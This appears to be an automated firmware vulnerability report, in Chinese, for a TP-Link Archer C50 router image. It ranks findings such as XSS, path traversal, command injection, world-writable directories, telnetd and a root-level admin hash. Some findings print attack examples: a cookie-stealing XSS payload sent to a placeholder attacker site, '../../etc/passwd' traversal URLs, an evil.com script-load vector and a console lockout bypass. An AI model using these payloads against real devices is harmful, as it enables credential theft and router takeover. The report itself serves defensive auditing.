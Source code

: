 # Archer_C50 高优先级: 11 中优先级: 13 低优先级: 18

## 优先级评分模型

**计算公式:** `PriorityScore = (0.5 * risk_level) + (0.3 * confidence) + (0.2 * trigger_possibility)`

**分层策略:**
- **高优先级:** `PriorityScore >= 8.5`
- **中优先级:** `7.0 <= PriorityScore < 8.5`
- **低优先级:** `PriorityScore < 7.0`

---

## 高优先级发现

### config-dir_permission-rcS

- **文件路径:** `etc/init.d/rcS`
- **位置:** `rcS:18,24`
- **类型:** configuration_load
- **综合优先级分数:** **9.5**
- **风险等级:** 9.0
- **置信度:** 10.0
- **触发可能性:** 10.0
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** 脚本创建全局可写目录（0777），包括/var/samba/private（行24）和/var/tmp/dropbear（行18）。触发条件：系统启动时自动执行。安全影响：攻击者可篡改dropbear密钥或samba配置文件（如植入恶意smb.conf），当相关服务启动时实现权限提升或信息窃取。利用链：控制目录→植入恶意配置/密钥→服务加载→系统沦陷。
- **关键词:** /bin/mkdir, -m 0777, /var/samba/private, /var/tmp/dropbear
- **备注:** 需验证dropbear/samba是否使用这些目录

---
### hardcoded_credentials-3g_js-apn_config

- **文件路径:** `web/js/3g.js`
- **位置:** `web/js/3g.js (全局配置对象)`
- **类型:** configuration_load
- **综合优先级分数:** **9.5**
- **风险等级:** 9.0
- **置信度:** 10.0
- **触发可能性:** 10.0
- **查询相关性:** 8.5
- **阶段:** N/A
- **描述:** 文件静态存储200+个3G运营商APN配置，包含明文凭证（如阿根廷Claro的username:'clarogprs'/password:'clarogprs999'）。攻击者通过下载该JS文件即可直接窃取凭证，无需特定触发条件。凭证未加密且无访问控制，可能被用于：1) 非法接入运营商网络 2) 中间人攻击 3) 设备克隆攻击。影响范围覆盖全球主要运营商，利用概率极高。
- **代码片段:**
  ```
  isp0: { isp_name: 'claro', username: 'clarogprs', password: 'clarogprs999' }
  ```
- **关键词:** username, password, apn, dial_num, isp_name, w3gisp_js
- **备注:** 建议审查所有含凭证条目并实施加密存储。该文件未与其他组件交互，属独立风险点。

---
### cmd-telnetd-unencrypted

- **文件路径:** `etc/init.d/rcS`
- **位置:** `rcS:38`
- **类型:** command_execution
- **综合优先级分数:** **9.1**
- **风险等级:** 9.0
- **置信度:** 10.0
- **触发可能性:** 8.0
- **查询相关性:** 8.5
- **阶段:** N/A
- **描述:** 启动未加密的 telnetd 服务：脚本直接执行 'telnetd' 命令，无任何加密参数或访问控制。该服务监听 23/TCP 端口，传输明文凭据。攻击者可进行中间人攻击窃取凭证，或利用 telnetd 二进制中的漏洞（如缓冲区溢出）直接获取设备控制权。触发条件：设备启动后网络可达且 23 端口开放。约束条件：服务持续运行无超时限制。潜在影响：完全设备沦陷。
- **代码片段:**
  ```
  telnetd
  ```
- **关键词:** telnetd
- **备注:** 需分析 /bin/telnetd 是否存在漏洞以构成完整攻击链

---
### attack_chain-XSS-CredentialTheft

- **文件路径:** `web/frame/login.htm`
- **位置:** `跨文件利用链：js/lib.js → frame/login.htm`
- **类型:** network_input
- **综合优先级分数:** **9.05**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 8.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 完整攻击链：通过控制$.loadMain的path参数注入XSS脚本（lib.js漏洞），窃取Authorization cookie中的Base64编码凭证（login.htm漏洞），实现管理员权限完全接管。触发步骤：1) 诱导用户访问恶意构造的URL触发$.err/$.errBack调用链 2) 恶意脚本通过document.cookie读取Authorization字段 3) Base64解码获得明文凭证 4) 直接登录设备。实际影响：无需密码爆破即可获取设备完全控制权，成功概率>85%（依赖用户点击恶意链接）。
- **代码片段:**
  ```
  // XSS触发点（lib.js）
  $.loadPage('main', '<script>fetch(attacker_site?c='+document.cookie)</script>', ...);
  
  // 凭证存储点（login.htm）
  document.cookie = "Authorization=Basic " + btoa('admin:password');
  ```
- **关键词:** loadMain, path, innerHTML, Authorization, Base64Encoding, document.cookie
- **备注:** 关联漏洞：network_input-libjs_dom_xss 和 network_input-login-Base64AuthCookie。需验证后端对path参数的过滤机制是否可绕过。

---
### network_input-libjs_path_traversal-420

- **文件路径:** `web/js/lib.js`
- **位置:** `lib.js:420`
- **类型:** network_input
- **综合优先级分数:** **9.05**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 8.0
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** 高危路径遍历漏洞：cgi函数动态构造文件路径时直接拼接$.curPage（用户控制的URL片段）。触发条件：用户访问恶意构造的URL（如http://target/#__../../etc/passwd.htm）。利用方式：攻击者通过污染$.curPage参数，使path变量拼接成敏感文件路径（如'/web/../../etc/passwd.cgi'），通过$.io函数读取任意文件。边界检查：仅替换.htm后缀为.cgi，无路径规范化或过滤。
- **代码片段:**
  ```
  path = (path ? path : $.curPage.replace(/\.htm$/, '.cgi')) + (arg ? '?' + $.toStr(arg, '=', '&') : '');
  ```
- **关键词:** cgi, $.curPage, path, $.io, .htm, .cgi
- **备注:** 形成完整利用链：URL片段→$.curPage→path→文件读取。需验证$.io函数是否受CORS限制。关联知识库：1) 'menu.cgi'文件可能接受未过滤参数 2) '关联漏洞链：xss-banner_dynamic_content-1'

---
### attack_chain-file_pollution_to_rce

- **文件路径:** `usr/bin/cos`
- **位置:** `usr/bin/cos:0x409bfc [strcpy]`
- **类型:** command_execution
- **综合优先级分数:** **8.9**
- **风险等级:** 9.5
- **置信度:** 8.5
- **触发可能性:** 8.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 高危攻击链：文件污染导致命令注入和缓冲区溢出。具体表现：1) 全局可写文件'/var/tmp/umount_failed_list'内容被污染；2) fcn.00409750读取文件时未验证内容；3) 污染数据经strcpy复制（0x409bfc）触发栈溢出；4) 相同数据在fcn.004099f4的rm -rf命令中执行任意shell命令。触发条件：攻击者写入≥320字节恶意内容到目标文件。安全影响：完全设备控制（风险等级9.5）。
- **代码片段:**
  ```
  // 关键漏洞点
  0x00409bfc  jalr t9 ; sym.imp.strcpy  // 缓冲区溢出
  (**(gp-0x7f58))(buf,"rm -rf %s%s","/var/usbdisk/",param) // 命令注入
  ```
- **关键词:** /var/tmp/umount_failed_list, fcn.00409750, fcn.00409bdc, strcpy, s2, s0, fcn.004099f4, rm -rf, system
- **备注:** 利用约束：1) 需绕过ASLR实现溢出利用 2) 命令注入需避免路径截断。建议后续动态验证溢出可行性并检查HTTP文件上传接口

---
### network_input-libjs_dom_xss-187

- **文件路径:** `web/js/lib.js`
- **位置:** `lib.js:187,203`
- **类型:** network_input
- **综合优先级分数:** **8.9**
- **风险等级:** 9.0
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** 高危DOM型XSS漏洞：html()函数直接设置elem.innerHTML（行187），dhtml()函数动态执行脚本（行203）。触发条件：攻击者控制value参数（html函数）或str参数（dhtml函数）。利用方式：注入恶意HTML/JS代码。约束条件：dhtml函数仅当输入含<script>标签时执行脚本。安全影响：完全控制页面DOM，可窃取cookie（含Authorization）或发起恶意请求。
- **代码片段:**
  ```
  elem.innerHTML = value;
  $.each(scripts, function() {$.script(this.text || this.textContent || this.innerHTML || '')});
  ```
- **关键词:** innerHTML, html, dhtml, elem, value, $.script, document.cookie
- **备注:** 结合document.cookie操作（行331）可窃取认证令牌。需追踪value/str参数来源。关联知识库：'与XSS漏洞结合可形成完整攻击链：XSS执行→窃取cookie→获取管理员权限'

---
### network_input-libjs_dom_xss

- **文件路径:** `web/mainFrame.htm`
- **位置:** `js/lib.js: loadMain函数`
- **类型:** network_input
- **综合优先级分数:** **8.7**
- **风险等级:** 9.0
- **置信度:** 9.0
- **触发可能性:** 7.5
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** 高危DOM型XSS漏洞：当攻击者控制$.loadMain的path参数为HTML字符串时（如'<script>alert(1)</script>'），通过innerHTML直接插入DOM执行任意脚本。触发条件：1) 通过原型污染或错误处理注入恶意path值 2) 触发$.err/$.errBack调用链（如诱导HTTP错误或CGI失败）。实际影响：结合login.htm的认证令牌漏洞，可窃取管理员凭证实现完全设备控制。
- **代码片段:**
  ```
  if (!path) path = $.curPage;
  var bFile = (path.indexOf("<") < 0);
  ...
  $.loadPage("main", path, function(){...})
  ```
- **关键词:** loadMain, path, innerHTML, $.dhtml, $.err, $.errBack, bFile
- **备注:** 需结合后端错误生成机制验证外部输入如何到达path参数。关联漏洞链：可触发login.htm的认证令牌窃取

---
### configuration_load-login_hardcoded_admin

- **文件路径:** `web/mainFrame.htm`
- **位置:** `frame/login.htm`
- **类型:** configuration_load
- **综合优先级分数:** **8.7**
- **风险等级:** 8.5
- **置信度:** 9.5
- **触发可能性:** 8.0
- **查询相关性:** 9.8
- **阶段:** N/A
- **描述:** 硬编码凭证与特权标记：login.htm强制设置admin用户名(userName.value="admin")并标记usernameIsAdmin特权。攻击者只需破解密码即可获取管理员权限。客户端锁定机制(lockWeb)存在设计缺陷：通过修改JS变量可绕过认证失败锁定（如重置lockTime变量）。触发条件：多次登录失败触发锁定后，在浏览器控制台执行lockTime=0解锁。
- **代码片段:**
  ```
  if (usernameIsAdmin) {
    userName.value = "admin";
    pcPassword.focus();
  }
  ```
- **关键词:** userName.value, usernameIsAdmin, lockWeb, lockTime, forbidAdminLogin, pcPassword
- **备注:** 需验证usernameIsAdmin是否受后端控制形成权限提升链。关联漏洞链：被XSS漏洞利用后直接获取管理员权限

---
### account-admin-root-privilege

- **文件路径:** `etc/passwd.bak`
- **位置:** `passwd.bak:1`
- **类型:** configuration_load
- **综合优先级分数:** **8.6**
- **风险等级:** 9.0
- **置信度:** 9.0
- **触发可能性:** 7.0
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** admin账户拥有root权限(UID=0/GID=0)且使用完整/bin/sh。触发条件：攻击者通过暴力破解/凭证泄露获取admin账户。利用方式：直接获得root shell实现完全系统控制。边界检查：无额外防护机制，密码使用MD5哈希但无锁定策略。
- **代码片段:**
  ```
  admin:$1$$iC.dUsGpxNNJGeOm1dFio/:0:0:root:/:/bin/sh
  ```
- **关键词:** admin, UID=0, GID=0, /bin/sh, $1$$iC.dUsGpxNNJGeOm1dFio/
- **备注:** 需验证/etc/shadow中实际密码强度

---
### network_input-login-Base64AuthCookie

- **文件路径:** `web/frame/login.htm`
- **位置:** `login.htm (JavaScript函数)`
- **类型:** network_input
- **综合优先级分数:** **8.6**
- **风险等级:** 8.0
- **置信度:** 9.0
- **触发可能性:** 9.5
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** 认证机制漏洞：登录功能通过PCSubWin()函数处理，将用户名密码Base64编码后存入Authorization cookie。触发条件：用户提交登录请求时。问题表现：1) 无输入过滤验证，攻击者可注入恶意字符 2) Base64编码相当于明文存储凭证 3) 刷新页面机制可能绕过某些安全控制。安全影响：攻击者可实施XSS攻击、凭证窃取或认证绕过（若后端验证缺陷）。利用方式：构造恶意用户名/密码参数尝试注入或窃取cookie。
- **代码片段:**
  ```
  auth = "Basic "+Base64Encoding(userName+":"+password);
  document.cookie = "Authorization=" + auth;
  window.location.reload();
  ```
- **关键词:** PCSubWin, userName, pcPassword, Base64Encoding, Authorization
- **备注:** 需验证后端对Authorization cookie的处理逻辑

---

## 中优先级发现

### network_input-ushare-interface_exposure

- **文件路径:** `etc/ushare.conf`
- **位置:** `etc/ushare.conf:7`
- **类型:** network_input
- **综合优先级分数:** **8.4**
- **风险等级:** 8.0
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** USHARE_IFACE=br0 将服务绑定到桥接接口，若br0暴露于非信任网络（如WAN），攻击者可直连服务。缺乏访问控制机制（如USHARE_ACL参数缺失），导致同一网络内任意设备可无认证访问。触发条件：攻击者位于相同广播域或路由可达br0接口。潜在影响：提供初始攻击入口点，可发送恶意请求触发协议漏洞。
- **代码片段:**
  ```
  USHARE_IFACE=br0
  ```
- **关键词:** USHARE_IFACE, br0
- **备注:** 需结合网络拓扑验证br0暴露范围，建议后续扫描开放端口

---
### network_input-login_cookie_token

- **文件路径:** `web/mainFrame.htm`
- **位置:** `frame/login.htm`
- **类型:** network_input
- **综合优先级分数:** **8.4**
- **风险等级:** 8.0
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** 认证令牌存储漏洞：登录成功时通过document.cookie存储Base64编码的明文凭证(Authorization=Basic base64(user:pass))，未设置HttpOnly/Secure属性。触发条件：1) 成功诱导用户访问恶意页面 2) 利用XSS漏洞执行document.cookie读取操作。实际影响：窃取令牌可永久获得管理员权限，Base64解码直接暴露明文密码。
- **代码片段:**
  ```
  auth = "Basic "+Base64Encoding(userName+":"+password);
  document.cookie = "Authorization=" + auth;
  ```
- **关键词:** document.cookie, Authorization, Base64Encoding, userName, pcPassword
- **备注:** 与XSS漏洞结合可形成完整攻击链：XSS执行→窃取cookie→获取管理员权限。关联lib.js的loadMain漏洞

---
### configuration_reset-iptables_flush

- **文件路径:** `etc/iptables-stop`
- **位置:** `etc/iptables-stop:4-16`
- **类型:** command_execution
- **综合优先级分数:** **8.3**
- **风险等级:** 9.0
- **置信度:** 10.0
- **触发可能性:** 4.0
- **查询相关性:** 8.5
- **阶段:** N/A
- **描述:** 脚本执行高危防火墙清除操作：清空所有规则链(-F/-X)并将默认策略设为ACCEPT（第4-16行）。若被攻击者触发（如通过未授权服务调用），将导致防火墙完全失效。触发条件：攻击者获得脚本执行权限。影响：网络防护完全解除，暴露所有端口和服务。
- **代码片段:**
  ```
  iptables -P INPUT ACCEPT
  iptables -P FORWARD ACCEPT
  iptables -P OUTPUT ACCEPT
  ```
- **关键词:** iptables -F, iptables -X, iptables -P ACCEPT
- **备注:** 需关联分析系统服务调用链（如/etc/init.d），确认是否存在web接口或IPC机制可触发此脚本。

---
### ftp-ssl-disabled

- **文件路径:** `etc/vsftpd.conf`
- **位置:** `etc/vsftpd.conf:0 (global config)`
- **类型:** configuration_load
- **综合优先级分数:** **8.2**
- **风险等级:** 8.0
- **置信度:** 9.0
- **触发可能性:** 7.5
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** FTP服务未启用SSL/TLS加密（ssl_enable=NO且未配置证书文件），导致认证凭证和文件内容以明文传输。攻击者可通过ARP欺骗等中间人攻击截获有效凭证，随后登录系统利用写权限（write_enable=YES）上传恶意文件或篡改关键系统文件。触发条件：1) FTP服务端口暴露 2) 攻击者位于同一广播域 3) 存在有效用户账户。边界检查：chroot_local_user=YES限制用户访问范围，但无法防御网络层窃听。实际影响：攻击者可获取系统控制权，成功概率取决于网络暴露程度和用户密码强度。
- **代码片段:**
  ```
  ssl_enable=NO
  rsa_cert_file=
  rsa_private_key_file=
  write_enable=YES
  local_enable=YES
  ```
- **关键词:** ssl_enable, rsa_cert_file, rsa_private_key_file, write_enable, local_enable
- **备注:** 需后续验证FTP服务实际开放端口及网络边界防护情况

---
### network_input-ushare-protocol_vulnerability

- **文件路径:** `etc/ushare.conf`
- **位置:** `etc/ushare.conf:27-30`
- **类型:** network_input
- **综合优先级分数:** **8.15**
- **风险等级:** 8.5
- **置信度:** 8.0
- **触发可能性:** 7.5
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** USHARE_ENABLE_XBOX=yes 和 USHARE_ENABLE_DLNA=yes 启用扩展协议支持。历史漏洞表明DLNA协议解析常存在缓冲区溢出（如CVE-2017-10617）。触发条件：攻击者发送畸形媒体文件或恶意协议数据包。潜在影响：可能绕过内存保护机制实现远程代码执行，形成完整攻击链。
- **代码片段:**
  ```
  USHARE_ENABLE_XBOX=yes
  USHARE_ENABLE_DLNA=yes
  ```
- **关键词:** USHARE_ENABLE_XBOX, USHARE_ENABLE_DLNA
- **备注:** 建议对uShare二进制进行协议解析深度分析

---
### network_input-menu-logout_endpoint

- **文件路径:** `web/frame/menu.htm`
- **位置:** `menu.htm:132-143`
- **类型:** network_input
- **综合优先级分数:** **8.1**
- **风险等级:** 7.5
- **置信度:** 8.5
- **触发可能性:** 9.0
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** 暴露认证注销端点/cgi/logout：通过logoutClick()函数直接调用，无任何认证状态验证或CSRF保护。攻击者可通过恶意页面或XSS强制触发该函数，导致用户会话意外终止（会话固定攻击）。触发条件简单：只需诱导用户访问含恶意脚本的页面。
- **代码片段:**
  ```
  function logoutClick(){
    $.act(ACT_CGI, "/cgi/logout");
    $.exe();
  }
  ```
- **关键词:** logoutClick, /cgi/logout, ACT_CGI, $.act, $.exe
- **备注:** 需结合/cgi/logout的实现验证实际影响。建议检查是否存在关联的CSRF保护机制。关联用户核心需求：此为HTTP端点暴露的网络输入点，可能构成会话固定攻击链的起始点。

---
### command_execution-iptables_path_pollution

- **文件路径:** `etc/iptables-stop`
- **位置:** `etc/iptables-stop:4`
- **类型:** command_execution
- **综合优先级分数:** **8.0**
- **风险等级:** 8.0
- **置信度:** 10.0
- **触发可能性:** 5.0
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** 脚本使用相对路径调用iptables命令（如'iptables -F'），未指定绝对路径且未重置PATH环境变量。当PATH被污染（如包含/tmp等可写目录）时，攻击者可放置恶意iptables程序实现命令注入。触发条件：1) 攻击者控制PATH变量 2) 在PATH目录放置恶意程序 3) 脚本被执行。影响：获得root权限（因iptables通常需root权限执行）。
- **代码片段:**
  ```
  iptables -t filter -F
  ```
- **关键词:** iptables, PATH
- **备注:** 需分析调用此脚本的父进程（如init脚本）是否安全设置PATH。固件中常见通过web接口触发服务重启的场景可能被利用。

---
### file-write-var-perm

- **文件路径:** `etc/init.d/rcS`
- **位置:** `rcS:8-16,20-22`
- **类型:** file_write
- **综合优先级分数:** **7.95**
- **风险等级:** 7.5
- **置信度:** 10.0
- **触发可能性:** 6.0
- **查询相关性:** 7.0
- **阶段:** N/A
- **描述:** 高危目录权限设置：通过 '/bin/mkdir -m 0777' 创建 /var/tmp、/var/usbdisk 等全局可写目录。攻击者获得低权限访问后（如通过 telnetd 漏洞），可在这些目录植入恶意脚本或篡改数据，实现权限提升或持久化控制。触发条件：攻击者获得任意命令执行权限。约束条件：目录在启动时创建且权限持续有效。潜在影响：权限提升、数据篡改或拒绝服务。
- **代码片段:**
  ```
  /bin/mkdir -m 0777 -p /var/tmp
  /bin/mkdir -m 0777 -p /var/usbdisk
  ```
- **关键词:** /bin/mkdir, -m 0777, /var/tmp, /var/usbdisk
- **备注:** 需检查 /var 下目录是否被关键服务使用

---
### network_input-login-BruteForceLock

- **文件路径:** `web/frame/login.htm`
- **位置:** `unknown`
- **类型:** network_input
- **综合优先级分数:** **7.9**
- **风险等级:** 7.5
- **置信度:** 8.5
- **触发可能性:** 8.0
- **查询相关性:** 8.5
- **阶段:** N/A
- **描述:** 暴力破解漏洞：登录失败10次后锁定7200秒。触发条件：连续10次认证失败。问题表现：1) 固定阈值允许攻击者进行10次暴力尝试 2) 锁定时间固定无随机化 3) 未实现IP限制或CAPTCHA。安全影响：攻击者可自动化尝试常见密码组合，弱密码账户易被破解。利用方式：针对已知用户名(如admin)发起密码爆破攻击。
- **代码片段:**
  ```
  if (authTimes >= 10) { isLocked = true; count = 7200 - forbidTime; }
  ```
- **关键词:** authTimes, forbidTime, isLocked
- **备注:** 建议分析后端认证模块的锁定实现机制；位置需后续确认

---
### attack_surface-world_writable_file

- **文件路径:** `usr/bin/cos`
- **位置:** `usr/bin/cos:0x409874 [fopen]`
- **类型:** file_write
- **综合优先级分数:** **7.75**
- **风险等级:** 7.5
- **置信度:** 9.0
- **触发可能性:** 6.5
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** 辅助攻击面：文件权限配置缺陷。全局可写文件'/var/tmp/umount_failed_list'（0666权限）被fopen('w+')定期清空，为攻击者提供稳定污染入口。触发条件：通过物理访问或网络服务漏洞写入文件。安全影响：中高危（风险等级7.5），作为主攻击链前置条件。
- **关键词:** fcn.00409874, fopen, w+, umask, /var/tmp/umount_failed_list
- **备注:** 需关联分析其他服务（如HTTP）是否暴露文件写入接口。位置基于函数名fcn.00409874推测

---
### network_input-libjs_ssrf-488

- **文件路径:** `web/js/lib.js`
- **位置:** `lib.js:488`
- **类型:** network_input
- **综合优先级分数:** **7.65**
- **风险等级:** 8.0
- **置信度:** 7.5
- **触发可能性:** 7.0
- **查询相关性:** 8.5
- **阶段:** N/A
- **描述:** SSRF/路径遍历风险：load函数直接传递$.curPage值给$.io函数（行488）。触发条件：控制$.curPage且值不含'<'字符。利用方式：设置$.curPage为外部URL（http://attacker.com）或本地敏感路径。安全影响：可访问内部服务或读取系统文件，但受$.io实现限制。边界检查：仅检查内容是否含HTML标签，无URL协议过滤。
- **代码片段:**
  ```
  if (html.indexOf('<') < 0) { $.io(html, false, function(ret) {...}
  ```
- **关键词:** $.load, $.io, html, $.curPage
- **备注:** 与路径遍历漏洞共享$.curPage污染源，需验证$.io是否支持HTTP协议。关联知识库：'需检查openWindow1/openWindow2的实现文件是否安全'

---
### configuration_load-libjs_global_param-50

- **文件路径:** `web/js/lib.js`
- **位置:** `lib.js:50,1269`
- **类型:** configuration_load
- **综合优先级分数:** **7.15**
- **风险等级:** 7.5
- **置信度:** 7.0
- **触发可能性:** 6.5
- **查询相关性:** 7.5
- **阶段:** N/A
- **描述:** 全局参数污染风险：$.params控制本地JS加载路径（行50,1269）。触发条件：启用local模式时污染$.params。利用方式：设置为恶意URL（http://evil.com/script.js）。安全影响：远程代码执行，但依赖local模式启用。触发可能性较低。
- **代码片段:**
  ```
  params: './js/local.js'
  $.io($.params, true);
  ```
- **关键词:** $.params, $.io, $.local
- **备注:** 潜在攻击路径：网络输入→$.params污染→远程脚本加载。需验证local模式启用条件

---
### command-PATH_injection-rcS

- **文件路径:** `etc/init.d/rcS`
- **位置:** `rcS:76,84`
- **类型:** command_execution
- **综合优先级分数:** **7.1**
- **风险等级:** 7.0
- **置信度:** 8.0
- **触发可能性:** 6.0
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** 未使用绝对路径启动telnetd（行76）和cos（行84）服务，且未设置PATH环境变量。触发条件：1) 系统PATH包含可写目录（如/var/tmp）2) 攻击者在PATH优先位置放置同名恶意程序。安全影响：服务启动时加载恶意程序实现代码执行。利用链：污染PATH→放置恶意程序→服务启动→RCE。
- **关键词:** telnetd, cos, PATH
- **备注:** 需后续验证：1) 系统默认PATH内容 2) cos服务功能

---

## 低优先级发现

### configuration_security-iptables_disable

- **文件路径:** `etc/iptables-stop`
- **位置:** `etc/iptables-stop:1-15`
- **类型:** command_execution
- **综合优先级分数:** **6.95**
- **风险等级:** 7.0
- **置信度:** 9.5
- **触发可能性:** 3.0
- **查询相关性:** 8.5
- **阶段:** N/A
- **描述:** 该脚本通过iptables命令清空所有防火墙规则（-F/-X）并将filter/nat表的默认策略设为ACCEPT，完全禁用防火墙。触发条件：必须以root权限执行。安全影响：1) 消除网络层防护使所有端口开放 2) 若被攻击者利用（如通过web漏洞触发执行），可结合内网渗透形成完整攻击链 3) 成功利用需满足：攻击者已获得脚本执行权限（通过权限提升或服务漏洞）
- **代码片段:**
  ```
  iptables -t filter -F
  iptables -t filter -X
  iptables -P INPUT ACCEPT
  ```
- **关键词:** iptables, -F, -X, -P ACCEPT, filter, nat, PATH
- **备注:** 需验证：1) 文件权限(是否www-data可写) 2) 调用链路(是否被web接口调用) 3) 与nvram/env的交互。关联风险：同文件存在PATH污染漏洞(command_execution-iptables_path_pollution)，可组合实现命令劫持

---
### network_input-login-AdminAutoFill

- **文件路径:** `web/frame/login.htm`
- **位置:** `unknown`
- **类型:** network_input
- **综合优先级分数:** **6.4**
- **风险等级:** 6.0
- **置信度:** 7.0
- **触发可能性:** 6.5
- **查询相关性:** 8.0
- **阶段:** N/A
- **描述:** 可疑变量暴露：usernameIsAdmin变量控制admin用户名自动填充。触发条件：当该变量为true时自动填充用户名。问题表现：1) 变量来源未在文件中明确 2) 可能通过URL参数或cookie控制。安全影响：若攻击者可操纵该变量，可能绕过用户名输入步骤直接获取管理员账户。利用方式：尝试污染usernameIsAdmin变量强制填充admin账户。
- **代码片段:**
  ```
  if (usernameIsAdmin) { userName.value = "admin"; }
  ```
- **关键词:** usernameIsAdmin, userName.value
- **备注:** 需追踪usernameIsAdmin变量定义位置及赋值逻辑；位置需后续确认

---
### ftp-chroot-conflict

- **文件路径:** `etc/vsftpd.conf`
- **位置:** `etc/vsftpd.conf:0 (global config)`
- **类型:** configuration_load
- **综合优先级分数:** **6.35**
- **风险等级:** 6.5
- **置信度:** 7.0
- **触发可能性:** 5.0
- **查询相关性:** 8.0
- **阶段:** N/A
- **描述:** 权限配置存在潜在冲突：chroot_local_user=YES限制用户在其主目录，但write_enable=YES要求可写权限。若管理员为解决此冲突而设置allow_writeable_chroot=YES（虽未在当前配置显式出现），可能触发历史vsftpd漏洞（如CVE-2007-5962），导致chroot逃逸。攻击者可在获取FTP账户后构造特殊路径序列访问系统其他目录。触发条件：1) 实际运行环境启用allow_writeable_chroot 2) 攻击者具有文件上传权限。边界检查：默认配置（allow_writeable_chroot=NO）理论上安全，但需运行时验证。
- **代码片段:**
  ```
  chroot_local_user=YES
  write_enable=YES
  # allow_writeable_chroot=YES (potential conflict)
  ```
- **关键词:** chroot_local_user, write_enable, allow_writeable_chroot
- **备注:** 建议动态验证服务运行时配置，检查/var/log/vsftpd.log确认实际chroot行为

---
### account-nobody-root-disabled

- **文件路径:** `etc/passwd.bak`
- **位置:** `passwd.bak:3`
- **类型:** configuration_load
- **综合优先级分数:** **6.25**
- **风险等级:** 6.5
- **置信度:** 8.0
- **触发可能性:** 3.0
- **查询相关性:** 6.0
- **阶段:** N/A
- **描述:** nobody账户配置root权限(UID=0/GID=0)但被禁用。触发条件：通过其他漏洞激活账户。利用方式：权限提升至root。边界检查：当前禁用状态提供基本防护。
- **代码片段:**
  ```
  nobody:*:0:0:nobody:/:/bin/sh
  ```
- **关键词:** nobody, UID=0, GID=0, *
- **备注:** 需监控账户激活行为

---
### network_input-menu-dynamic_loader

- **文件路径:** `web/frame/menu.htm`
- **位置:** `menu.htm:160`
- **类型:** network_input
- **综合优先级分数:** **6.1**
- **风险等级:** 6.0
- **置信度:** 7.0
- **触发可能性:** 5.0
- **查询相关性:** 8.0
- **阶段:** N/A
- **描述:** 动态菜单配置加载机制：通过$.cgi('./frame/menu.cgi')加载菜单配置。固定相对路径使用虽无直接漏洞，但需验证menu.cgi是否：1) 解析用户输入 2) 返回敏感路径信息 3) 存在路径遍历风险（如通过参数控制路径）。该机制可能成为攻击链中间环节。
- **关键词:** $.cgi, menu.cgi, menulist
- **备注:** 必须分析menu.cgi文件实现。若其接受参数且未过滤，可能形成路径遍历或文件泄露漏洞（如../../../etc/passwd）。关联用户核心需求：此机制位于www目录，是网络输入到文件系统操作的潜在传递节点。

---
### network_input-page_router-curPage_switch

- **文件路径:** `web/js/local.js`
- **位置:** `local.js:75-103`
- **类型:** network_input
- **综合优先级分数:** **6.1**
- **风险等级:** 4.0
- **置信度:** 9.0
- **触发可能性:** 7.0
- **查询相关性:** 8.5
- **阶段:** N/A
- **描述:** 未经验证的用户输入处理点：$.curPage变量从URL路径提取页面名称（如'status.htm'），通过正则表达式/(\w+).htm$/提取标识符后直接用于switch分支控制。输入约束仅为\w字符集（字母/数字/下划线），缺乏内容验证。攻击者可构造特定页面名（如'softup.htm'）跳转到固件升级分支，若升级功能存在漏洞（如命令注入），可形成攻击链。触发条件：用户访问包含恶意构造页面名的URL。
- **代码片段:**
  ```
  if($.curPage){
    switch(/(\w+).htm$/.exec($.curPage)[1]){
      case "demorpm":...
      case "softup":...
      case "status":...
    }
  }
  ```
